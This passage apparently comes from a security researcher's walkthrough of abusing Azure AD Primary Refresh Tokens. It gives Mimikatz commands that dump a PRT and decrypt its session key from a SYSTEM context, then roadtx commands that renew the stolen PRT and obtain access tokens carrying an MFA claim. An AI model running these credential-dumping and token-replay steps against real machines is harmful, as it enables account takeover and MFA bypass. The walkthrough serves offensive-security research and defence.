 ```
privilege::debug
sekurlsa::cloudap
```

Mimikatz gives us the PRT and encrypted session key (the _KeyValue_ of the _ProofOfPossesionKey_ field), which we can decrypt from a `SYSTEM` context.

```
token::elevate
dpapi::cloudapkd /keyvalue:cryptedkey /unprotect
```

The `cloudapkd` function will give us the clear session key (if not stored in TPM), and a derived key. We will need the clear key for roadtx:

![dumping PRT with mimikatzz](/assets/img/roadtx/mimikatz_dump.png)

To make our life easier, we renew the PRT first, which will save it in `roadtx.prt`:

```
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```

Now we can request tokens using the interactive browser with `roadtx browserprtauth`. If we use the `roadtx describe` command, we see the access token includes an MFA claim because the PRT I used in this case also had an MFA claim.

```
roadtx browserprtauth
roadtx describe < .roadtools_auth
```

![MFA claim from the PRT](/assets/img/roadtx/roadtx_describe.png)
